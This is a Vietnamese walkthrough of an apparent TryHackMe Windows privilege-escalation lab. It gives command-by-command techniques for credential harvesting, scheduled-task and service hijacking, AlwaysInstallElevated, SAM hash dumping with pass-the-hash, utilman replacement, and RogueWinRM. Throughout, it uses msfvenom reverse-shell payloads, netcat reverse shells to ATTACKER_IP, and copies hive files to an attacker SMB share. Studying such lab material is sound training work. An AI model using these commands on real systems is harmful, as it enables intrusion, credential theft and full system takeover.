

# Windows Privilege Escalation

<figure><figcaption></figcaption></figure>

## Task 2: Windows Privilege Escalation

### Windows Privilege Escalation

Privilege Escalation là quá trình sử dụng quyền truy cập hiện tại của "user A" để lấy quyền truy cập của "user B" bằng cách abuse một weakness trên hệ thống mục tiêu.

Thông thường, mục tiêu là leo lên một account có administrative privileges. Tuy nhiên, trong một số trường hợp, có thể cần leo sang một unprivileged account khác trước khi thực sự đạt được administrative privileges.

Việc lấy quyền của account khác đôi khi đơn giản như tìm thấy credentials được lưu không an toàn trong text files hoặc spreadsheets.

Tùy vào tình huống, có thể cần abuse các weakness sau:

* Misconfigurations trên Windows services hoặc scheduled tasks
* Excessive privileges được cấp cho account hiện tại
* Vulnerable software
* Missing Windows security patches

### Windows Users

Windows chủ yếu có hai loại user dựa trên access level:

<table><thead><tr><th width="144">User type</th><th>Đặc điểm</th></tr></thead><tbody><tr><td>Administrators</td><td>Có privileges cao nhất. Có thể thay đổi mọi system configuration parameter và truy cập mọi file trong hệ thống.</td></tr><tr><td>Standard Users</td><td>Có thể truy cập máy tính nhưng chỉ thực hiện các tác vụ hạn chế. Thông thường không thể thực hiện permanent hoặc essential changes trên hệ thống và chủ yếu bị giới hạn trong các file của chính mình.</td></tr></tbody></table>

* User có administrative privileges sẽ thuộc Administrators group.
* Standard users sẽ thuộc Users group.

### Special Built-in Accounts

Ngoài các regular accounts, Windows còn có một số special built-in accounts thường gặp trong Privilege Escalation.

<table><thead><tr><th width="215">Account</th><th>Chức năng và quyền</th></tr></thead><tbody><tr><td>SYSTEM / LocalSystem</td><td>Account được operating system sử dụng để thực hiện internal tasks. Có full access tới tất cả files và resources trên host, với privileges cao hơn cả Administrators.</td></tr><tr><td>Local Service</td><td>Default account dùng để chạy Windows services với "minimum" privileges. Khi kết nối qua network sẽ sử dụng anonymous connections.</td></tr><tr><td>Network Service</td><td>Default account dùng để chạy Windows services với "minimum" privileges. Khi authenticate qua network sẽ sử dụng computer credentials.</td></tr></tbody></table>

Các account này được Windows tạo và quản lý, vì vậy không thể sử dụng chúng giống như các regular accounts thông thường.

Tuy nhiên, trong một số trường hợp, có thể lấy được privileges của các account này bằng cách exploit các services cụ thể.

<figure><figcaption></figcaption></figure>

## Task 3: Harvesting Passwords from Usual Spots

Harvesting Passwords là việc thu thập credentials từ một compromised machine để lấy quyền truy cập vào user khác.

Credentials có thể tồn tại vì nhiều lý do, ví dụ:

* User bất cẩn lưu credentials trong plaintext files.
* Software như browsers hoặc email clients lưu lại credentials.

Task này tập trung vào một số vị trí phổ biến trên Windows có thể chứa passwords.

### Unattended Windows Installations

Khi cài Windows trên số lượng lớn hosts, administrators có thể sử dụng Windows Deployment Services để deploy một operating system image cho nhiều hosts thông qua network.

Các kiểu cài đặt này được gọi là unattended installations vì không yêu cầu user interaction.

Quá trình cài đặt ban đầu cần sử dụng administrator account, vì vậy credentials có thể bị lưu lại trên máy.

Các vị trí thường gặp:

```ps
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

Trong các file này có thể xuất hiện credentials:

```
<Credentials>    
<Username>Administrator</Username>    
<Domain>thm.local</Domain>    
<Password>MyPassword123</Password></Credentials>
```

### Powershell History

Khi user chạy command bằng Powershell, command đó sẽ được lưu trong một file chứa history của các command trước đó.

Nếu user nhập password trực tiếp trong Powershell command line, password có thể được tìm lại trong history.

Đọc Powershell history từ `cmd.exe`:

```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

Lưu ý:

* Command trên chỉ hoạt động trực tiếp với `%userprofile%` trong `cmd.exe`.
* Powershell không nhận `%userprofile%` theo cách này.
* Trong Powershell cần sử dụng `$Env:userprofile`.

<figure><figcaption></figcaption></figure>

### Saved Windows Credentials

Windows cho phép sử dụng credentials của user khác và có thể lưu credentials đó trên hệ thống.

Liệt kê saved credentials:

```
cmdkey /list
```

<figure><figcaption></figcaption></figure>

Command này không hiển thị actual passwords.

Nếu tìm thấy credentials phù hợp, có thể sử dụng chúng với `runas` và option `/savecred`:

<figure><figcaption></figcaption></figure>

```
runas /savecred /user:admin cmd.exe
```

### IIS Configuration

Internet Information Services (IIS) là default web server trên Windows.

Configuration của websites trên IIS được lưu trong file `web.config`.

File này có thể chứa:

* Database passwords
* Credentials liên quan đến configured authentication mechanisms

Tùy IIS version, `web.config` có thể nằm tại:

```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```

Tìm database connection strings:

```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

<figure><figcaption></figcaption></figure>

### Retrieve Credentials from Software: PuTTY

PuTTY là một SSH client phổ biến trên Windows.

PuTTY cho phép lưu sessions để lưu các thông tin như:

* IP
* User
* Các connection configurations khác

PuTTY không cho phép lưu SSH password.

Tuy nhiên, PuTTY có thể lưu proxy configurations chứa cleartext authentication credentials.

Để tìm stored proxy credentials, kiểm tra Registry tại:

```
HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\
```

Command:

<figure><figcaption></figcaption></figure>

```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

Command này có thể tìm các thông tin như:

```
Proxy Password
Proxy username
```

Lưu ý:

* Simon Tatham là người tạo PuTTY.
* Tên `SimonTatham` trong Registry path không phải username đang được lấy password.

### Software có thể lưu Credentials

Không chỉ PuTTY, nhiều software khác cũng có thể lưu passwords của user.

| Software          | Có thể lưu credentials  |
| ----------------- | ----------------------- |
| Browsers          | Passwords đã lưu        |
| Email clients     | Credentials             |
| FTP clients       | Credentials             |
| SSH clients       | Credentials             |
| VNC software      | Credentials             |
| Các software khác | Passwords được user lưu |

Nếu software có chức năng lưu password, thường sẽ có cách để recover các passwords mà user đã lưu.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Task 4: Other Quick Wins

Privilege Escalation không phải lúc nào cũng phức tạp. Một số misconfigurations có thể cho phép lấy quyền của user có privilege cao hơn, thậm chí Administrator.

Các kỹ thuật trong task này phù hợp với CTF hơn là các tình huống thường gặp trong real penetration testing engagements. Tuy nhiên, nếu các phương pháp trước không hoạt động thì vẫn có thể kiểm tra các trường hợp này.

### Scheduled Tasks

Khi kiểm tra scheduled tasks trên hệ thống mục tiêu, có thể gặp:

* Scheduled task bị mất binary.
* Scheduled task sử dụng binary mà current user có thể modify.

Liệt kê scheduled tasks:

```cmd
schtasks
```

Xem thông tin chi tiết của một task:

```cmd
schtasks /query /tn vulntask /fo list /v
```

<figure><figcaption></figcaption></figure>

Ví dụ:

```
Folder: \
HostName:                             THM-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
```

Hai thông tin quan trọng:

| Parameter   | Ý nghĩa                                        |
| ----------- | ---------------------------------------------- |
| Task to Run | File hoặc command được scheduled task thực thi |
| Run As User | User được sử dụng để thực thi task             |

Nếu current user có thể modify hoặc overwrite file trong `Task to Run`, có thể kiểm soát nội dung được thực thi với quyền của `Run As User`.

#### Kiểm tra file permissions

Sử dụng `icacls`:

```cmd
icacls c:\tasks\schtask.bat
```

Ví dụ:

<figure><figcaption></figcaption></figure>

```
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```

Trong kết quả:

```
BUILTIN\Users:(I)(F)
```

`F` nghĩa là full access.

Do đó, `BUILTIN\Users` có thể modify file `.bat`.

#### Thay đổi Scheduled Task để tạo Reverse Shell

`nc64.exe` nằm tại:

```
C:\tools
```

Thay nội dung file `.bat`:

```cmd
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

Trên attacker machine, mở listener:

```bash
nc -lvp 4444
```

Khi scheduled task chạy, reverse shell sẽ được thực thi với privileges của:

```powershell
Listening on 0.0.0.0 4444
Connection received on 10.10.175.90 50649
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\taskusr1
```

Trong real scenario, có thể phải chờ scheduled task tự chạy.

Trong lab này, user hiện tại được cấp quyền để chạy task thủ công:

```cmd
schtasks /run /tn vulntask
```

Sau đó attacker nhận reverse shell:

```
C:\Windows\system32>whoami
wprivesc1\taskusr1
```

Sau khi lấy được quyền `taskusr1`, truy cập Desktop của user này để lấy flag.

### AlwaysInstallElevated

Windows Installer files hay `.msi` files được sử dụng để cài đặt applications trên Windows.

Thông thường, `.msi` chạy với privilege level của user đã khởi chạy nó.

Tuy nhiên, Windows có thể được cấu hình để `.msi` chạy với higher privileges từ bất kỳ user account nào, kể cả unprivileged user.

Điều này có thể cho phép tạo malicious MSI file chạy với admin privileges.

Lưu ý:

```
AlwaysInstallElevated không hoạt động trên machine của room này.
Phần này chỉ được đưa vào để cung cấp thông tin.
```

#### Kiểm tra Registry

AlwaysInstallElevated yêu cầu hai registry values phải được set.

Kiểm tra:

```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
```

```cmd
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Điều kiện:

| Registry                                           | Yêu cầu       |
| -------------------------------------------------- | ------------- |
| HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer | Phải được set |
| HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer | Phải được set |

Cả hai phải được set thì mới có thể exploit.

Nếu chỉ một giá trị được set thì exploitation không thể thực hiện.

#### Tạo Malicious MSI

Có thể sử dụng `msfvenom`:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```

Vì payload là reverse shell, cần chạy Metasploit Handler với cấu hình tương ứng.

Sau khi transfer `malicious.msi` sang target, chạy:

```cmd
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

Nếu cấu hình AlwaysInstallElevated phù hợp, malicious MSI sẽ chạy với admin privileges và tạo reverse shell.

## Task 5: Abusing Service Misconfigurations

### Windows Services

Windows services được quản lý bởi Service Control Manager (SCM).

SCM là process chịu trách nhiệm:

* Quản lý trạng thái của services khi cần.
* Kiểm tra current status của một service.
* Cung cấp cách để configure services.

Mỗi service trên Windows sẽ có một executable liên quan. Executable này sẽ được SCM chạy khi service được start.

Lưu ý:

* Không phải executable nào cũng có thể chạy thành service thành công.
* Service executables cần implement các special functions để giao tiếp với SCM.
* Mỗi service cũng chỉ định user account mà service sẽ chạy dưới quyền account đó.

Kiểm tra service configuration bằng `sc qc`:

```cmd
sc qc apphostsvc
```

Ví dụ output:

```
SERVICE_NAME: apphostsvc
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k apphost
        DISPLAY_NAME       : Application Host Helper Service
        SERVICE_START_NAME : localSystem
```

Các parameter quan trọng:

| Parameter            | Ý nghĩa                           |
| -------------------- | --------------------------------- |
| BINARY\_PATH\_NAME   | Executable được service sử dụng   |
| SERVICE\_START\_NAME | Account được dùng để chạy service |

Services có Discretionary Access Control List (DACL).

DACL cho biết ai có quyền:

* Start service
* Stop service
* Pause service
* Query status
* Query configuration
* Reconfigure service
* Các privileges khác

DACL có thể xem bằng Process Hacker.

<figure><figcaption></figcaption></figure>

Tất cả service configurations được lưu trong Registry tại:

```
HKLM\SYSTEM\CurrentControlSet\Services\
```

Mỗi service sẽ có một subkey riêng.

Trong Registry:

<figure><figcaption></figcaption></figure>

| Value/Subkey | Ý nghĩa                                   |
| ------------ | ----------------------------------------- |
| ImagePath    | Executable liên quan đến service          |
| ObjectName   | Account dùng để start service             |
| Security     | Nơi lưu DACL nếu service có cấu hình DACL |

Theo mặc định, chỉ administrators có thể modify các registry entries này.

### Insecure Permissions on Service Executable

Nếu executable liên quan đến service có weak permissions cho phép attacker modify hoặc replace nó, attacker có thể lấy privileges của service account.

Ví dụ với Splinterware System Scheduler.

Kiểm tra service configuration:

```cmd
sc qc WindowsScheduler
```

Ví dụ output:

```
SERVICE_NAME: windowsscheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
        DISPLAY_NAME       : System Scheduler Service
        SERVICE_START_NAME : .\svcuser1
```

Thông tin quan trọng:

| Parameter          | Giá trị                             |
| ------------------ | ----------------------------------- |
| Service account    | .\svcuser1                          |
| Service executable | C:\PROGRA\~2\SYSTEM\~1\WService.exe |

Kiểm tra permissions của executable:

```cmd
icacls C:\PROGRA~2\SYSTEM~1\WService.exe
```

Ví dụ output:

```
C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
                                  NT AUTHORITY\SYSTEM:(I)(F)
                                  BUILTIN\Administrators:(I)(F)
                                  BUILTIN\Users:(I)(RX)
```

Điểm quan trọng:

```
Everyone:(I)(M)
```

`Everyone` có modify permissions (M) trên service executable.

Điều này có nghĩa là có thể overwrite executable này bằng payload khác. Khi service chạy, payload sẽ được thực thi với privileges của configured user account.

Tạo exe-service payload bằng `msfvenom`:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
```

Serve payload bằng Python webserver:

```bash
python3 -m http.server
```

Tải payload từ Windows bằng Powershell:

```powershell
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
```

Thay thế service executable:

```cmd
cd C:\PROGRA~2\SYSTEM~1\

move WService.exe WService.exe.bkp

move C:\Users\thm-unpriv\rev-svc.exe WService.exe

icacls WService.exe /grant Everyone:F
```

Mở listener trên attacker machine:

```bash
nc -lvp 4445
```

Restart service:

```cmd
sc stop windowsscheduler
sc start windowsscheduler
```

Lưu ý:

* Trong real scenario, thường phải chờ service restart.
* Trong lab này, user được cấp quyền restart service để tiết kiệm thời gian.

Nếu thành công, nhận reverse shell với quyền `svcusr1`:

```
C:\Windows\system32>whoami
wprivesc1\svcusr1
```

Sau đó truy cập Desktop của `svcusr1` để lấy flag.

### Unquoted Service Paths

Nếu không thể ghi trực tiếp vào service executable, vẫn có thể có cơ hội ép service chạy arbitrary executable thông qua unquoted service path.

Unquoted service path xảy ra khi service executable path không được quote đúng cách, đặc biệt khi path có spaces.

Ví dụ service được quote đúng:

```cmd
sc qc "vncserver"
```

```
BINARY_PATH_NAME   : "C:\Program Files\RealVNC\VNC Server\vncserver.exe" -service
SERVICE_START_NAME : LocalSystem
```

Ở ví dụ này, SCM biết chính xác binary cần chạy là:

```
C:\Program Files\RealVNC\VNC Server\vncserver.exe
```

Ví dụ service không được quote đúng:

```cmd
sc qc "disk sorter enterprise"
```

```
BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
SERVICE_START_NAME : .\svcusr2
```

Vì path có spaces trong folder name `Disk Sorter Enterprise`, command trở nên ambiguous.

SCM có thể hiểu theo nhiều cách:

| Command                                              | Argument 1                 | Argument 2                 |
| ---------------------------------------------------- | -------------------------- | -------------------------- |
| C:\MyPrograms\Disk.exe                               | Sorter                     | Enterprise\bin\disksrs.exe |
| C:\MyPrograms\Disk Sorter.exe                        | Enterprise\bin\disksrs.exe |                            |
| C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe |                            |                            |

Nguyên nhân là do command prompt dùng spaces làm argument separators, trừ khi phần path nằm trong quoted string.

SCM sẽ thử tìm binary theo thứ tự:

1. `C:\MyPrograms\Disk.exe`
2. `C:\MyPrograms\Disk Sorter.exe`
3. `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe`

Nếu attacker tạo được một executable xuất hiện trước executable thật trong thứ tự tìm kiếm, attacker có thể ép service chạy arbitrary executable.

Điều kiện khai thác:

* Service path không được quote đúng.
* Path có spaces.
* Attacker có quyền tạo file ở một trong các vị trí mà SCM sẽ tìm trước executable thật.

Thông thường, service executables nằm trong:

```
C:\Program Files
C:\Program Files (x86)
```

Các thư mục này mặc định không writable bởi unprivileged users, nên thường không exploit được.

Ngoại lệ:

* Một số installers thay đổi permissions của installed folders.
* Administrator cài service binaries ở non-default path.
* Nếu path đó world-writable thì vulnerability có thể exploit.

Trong lab này, Disk Sorter được cài tại:

```
C:\MyPrograms
```

Kiểm tra permissions:

```cmd
icacls c:\MyPrograms
```

Ví dụ output:

```
c:\MyPrograms NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
              BUILTIN\Administrators:(I)(OI)(CI)(F)
              BUILTIN\Users:(I)(OI)(CI)(RX)
              BUILTIN\Users:(I)(CI)(AD)
              BUILTIN\Users:(I)(CI)(WD)
```

`BUILTIN\Users` có:

| Permission | Ý nghĩa                     |
| ---------- | --------------------------- |
| AD         | Cho phép tạo subdirectories |
| WD         | Cho phép tạo files          |

Tạo payload:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe
```

Mở listener:

```bash
nc -lvp 4446
```

Di chuyển payload vào vị trí hijacking:

```cmd
move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe
```

Cấp full permissions cho Everyone:

```cmd
icacls C:\MyPrograms\Disk.exe /grant Everyone:F
```

Restart service:

```cmd
sc stop "disk sorter enterprise"
sc start "disk sorter enterprise"
```

Nếu thành công, nhận reverse shell với quyền `svcusr2`:

```
C:\Windows\system32>whoami
wprivesc1\svcusr2
```

Sau đó truy cập Desktop của `svcusr2` để lấy flag.

Lưu ý khi dùng PowerShell:

```
PowerShell có sc là alias của Set-Content.
Nếu muốn control services trong PowerShell, cần dùng sc.exe.
```

### Insecure Service Permissions

Nếu service executable DACL được cấu hình đúng và service binary path được quote đúng, vẫn có thể có cơ hội khai thác nếu service DACL cho phép modify service configuration.

Điểm khác biệt:

| Loại DACL               | Ý nghĩa                                                         |
| ----------------------- | --------------------------------------------------------------- |
| Service executable DACL | Permissions trên file executable của service                    |
| Service DACL            | Permissions trên chính service, ví dụ quyền reconfigure service |

Nếu service DACL cho phép modify configuration, attacker có thể reconfigure service để:

* Trỏ service tới bất kỳ executable nào cần chạy.
* Chạy service với bất kỳ account nào mong muốn, bao gồm SYSTEM.

Kiểm tra service DACL từ command line bằng Accesschk trong Sysinternals suite.

Trong lab, Accesschk có tại:

```
C:\tools
```

Kiểm tra DACL của `thmservice`:

```cmd
C:\tools\AccessChk> accesschk64.exe -qlc thmservice
```

Ví dụ output:

```
[0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
      SERVICE_QUERY_STATUS
      SERVICE_QUERY_CONFIG
      SERVICE_INTERROGATE
      SERVICE_ENUMERATE_DEPENDENTS
      SERVICE_PAUSE_CONTINUE
      SERVICE_START
      SERVICE_STOP
      SERVICE_USER_DEFINED_CONTROL
      READ_CONTROL

[4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
      SERVICE_ALL_ACCESS
```

Điểm quan trọng:

```
BUILTIN\Users
SERVICE_ALL_ACCESS
```

Điều này nghĩa là bất kỳ user nào cũng có thể reconfigure service.

Tạo exe-service reverse shell:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe
```

Mở listener:

```bash
nc -lvp 4447
```

Transfer payload sang lab machine và lưu tại:

```
C:\Users\thm-unpriv\rev-svc3.exe
```

Cấp permission cho Everyone để execute payload:

```cmd
icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
```

Thay đổi service executable và account bằng `sc config`:

```cmd
sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
```

Lưu ý:

* Cần chú ý spaces sau dấu `=` khi dùng `sc.exe`.
* Có thể chọn account để chạy service.
* Ở đây chọn `LocalSystem` vì đây là account có privilege cao nhất có sẵn.

Restart service:

```cmd
sc stop THMService
sc start THMService
```

Nếu thành công, nhận shell với SYSTEM privileges:

```
C:\Windows\system32>whoami
NT AUTHORITY\SYSTEM
```

Sau đó truy cập Desktop của Administrator để lấy flag.

## Task 6: Abusing Privileges

Task này trình bày ba Windows privileges có thể dẫn đến privilege escalation:

* `SeBackupPrivilege` và `SeRestorePrivilege`
* `SeTakeOwnershipPrivilege`
* `SeImpersonatePrivilege` hoặc `SeAssignPrimaryTokenPrivilege`

### SeBackupPrivilege và SeRestorePrivilege

User: `THMBackup`

Password: `CopyMaster555`

Account này thuộc group **Backup Operators**. Theo mặc định, group có `SeBackupPrivilege` và `SeRestorePrivilege`.

Hai quyền này cho phép backup và restore file, kể cả khi DACL không cấp quyền thông thường. Vì vậy, chúng có thể đọc registry hives chứa password hashes.

Mở **Command Prompt** bằng tùy chọn **Run as administrator**. Nhập lại password khi Windows yêu cầu:

<br>

Kiểm tra privileges của session:

```shell-session
C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

`SAM` lưu local account hashes. `SYSTEM` chứa boot key cần để giải mã các hashes đó.

Lưu hai registry hive vào thư mục của user hiện tại:

```shell-session
C:\> reg save hklm\system C:\Users\THMBackup\system.hive
The operation completed successfully.

C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive
The operation completed successfully.
```

Hai lệnh này tạo file hive. Chuyển chúng sang AttackBox bằng SMB hoặc phương thức phù hợp khác.

Với SMB, tạo thư mục share và chạy `smbserver.py`. Share `public` trỏ tới thư mục `share`:

```shell-session
user@attackerpc$ mkdir share
user@attackerpc$ python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```

Share này yêu cầu credentials của Windows session hiện tại. Trên Windows, copy hai file sang AttackBox. Thay `ATTACKER_IP` bằng địa chỉ AttackBox:

```shell-session
C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
```

Dùng Impacket để trích xuất password hashes:

```shell-session
user@attackerpc$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

```

Dùng hash của `Administrator` để thực hiện Pass-the-Hash. Lệnh sau truy cập lab machine với quyền `SYSTEM`:

```shell-session
user@attackerpc$ python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@10.48.165.34
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.175.90.....
[*] Found writable share ADMIN$
[*] Uploading file nfhtabqO.exe
[*] Opening SVCManager on 10.10.175.90.....
[*] Creating service RoLE on 10.10.175.90.....
[*] Starting service RoLE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```


### SeTakeOwnershipPrivilege

`SeTakeOwnershipPrivilege` cho phép user nhận ownership của mọi object trong hệ thống, gồm file và registry key.

Owner không tự có quyền đọc, ghi hoặc thực thi. Tuy nhiên, owner có thể sửa DACL để tự cấp các quyền này.

Trong phần này, ta thay `utilman.exe` để lấy quyền `SYSTEM`.

Đăng nhập RDP vào lab machine bằng credentials:

User: `THMTakeOwnership`

Password: `TheWorldIsMine2022`

Mở **Command Prompt** bằng **Run as administrator**. Nhập lại password khi Windows yêu cầu:

<br>

Kiểm tra privilege:

```shell-session
C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Disabled
```

`utilman.exe` là ứng dụng **Ease of Access** tích hợp sẵn trên màn hình khóa:

<br>

Windows chạy `utilman.exe` với quyền `SYSTEM`. Nếu thay file này bằng payload, payload cũng chạy với `SYSTEM`.

Trước hết, nhận ownership của file:

```shell-session
C:\> takeown /f C:\Windows\System32\Utilman.exe

SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WINPRIVESC2\thmtakeownership".
```

Sau khi là owner, cấp full control cho account hiện tại:

```shell-session
C:\> icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
processed file: Utilman.exe
Successfully processed 1 files; Failed processing 0 files
```

Thay `utilman.exe` bằng bản sao của `cmd.exe`:

```shell-session
C:\Windows\System32\> copy cmd.exe utilman.exe
        1 file(s) copied.
```

Khóa màn hình từ menu **Start**:

<br>

Chọn nút **Ease of Access**. Windows chạy `utilman.exe` với quyền `SYSTEM`, nên command prompt mở ra cũng có quyền `SYSTEM`:

<figure><figcaption></figcaption></figure>

### SeImpersonatePrivilege và SeAssignPrimaryTokenPrivilege

Hai privilege này cho phép process mạo danh user khác và hành động bằng quyền của user đó.

Ví dụ, FTP service cần giới hạn user chỉ truy cập file của chính họ. Nếu không mạo danh, service dùng token của account `ftp`, không phải token của user vừa đăng nhập:

<figure><figcaption></figcaption></figure>

Khi đó, file phải cấp quyền cho `ftp`. Hệ điều hành cũng không thể authorization theo user đang đăng nhập.

Nếu `ftp` có `SeImpersonatePrivilege` hoặc `SeAssignPrimaryTokenPrivilege`, service có thể tạm thời dùng token của user đã đăng nhập:

<figure><figcaption></figcaption></figure>


Service sẽ chỉ truy cập được file mà token đó được cấp quyền. Windows xử lý authorization thay cho service.

Nếu kiểm soát được process có một trong hai privilege này, ta có thể mạo danh user kết nối và xác thực tới process đó.

Các account thường có privilege này gồm `LOCAL SERVICE`, `NETWORK SERVICE`, và `iis apppool\defaultapppool` của IIS.

Để leo quyền, cần:

1. Tạo process nhận kết nối và authentication.
2. Ép user có quyền cao kết nối tới process đó.

RogueWinRM đáp ứng cả hai điều kiện.

Giả sử đã kiểm soát một website chạy IIS và cài web shell tại:

`http://10.48.165.34/`

Kiểm tra privileges của account web shell để xác nhận có privilege cần thiết:

<figure><figcaption></figcaption></figure>

RogueWinRM đã có sẵn trong `C:\tools\`.

Khi BITS service khởi động, Windows kết nối tới port `5985` với quyền `SYSTEM`. Đây thường là port của WinRM.

Nếu WinRM không chạy, RogueWinRM có thể tạo WinRM giả trên port này. Nó nhận authentication từ BITS và dùng `SeImpersonatePrivilege` để chạy command bằng token `SYSTEM`.

Trên AttackBox, mở Netcat listener:

```shell-session
user@attackerpc$ nc -lvp 4442
```

Qua web shell, chạy RogueWinRM. Thay `ATTACKER_IP` bằng địa chỉ AttackBox:

```shell-session
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```

<figure><figcaption></figcaption></figure>


Exploit có thể mất đến hai phút. Khi chạy lại, nó phải chờ BITS service dừng trước khi khởi động lại.


`-p` chỉ định executable cần chạy là `nc64.exe`. `-a` truyền arguments cho executable đó. Các arguments này yêu cầu Netcat tạo reverse shell về AttackBox.

Nếu thành công, listener nhận shell với quyền `SYSTEM`:

```shell-session
user@attackerpc$ nc -lvp 4442
Listening on 0.0.0.0 4442
Connection received on 10.10.175.90 49755
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
nt authority\system
```

Dùng một trong ba phương pháp để truy cập Desktop của `Administrator` và lấy flag.
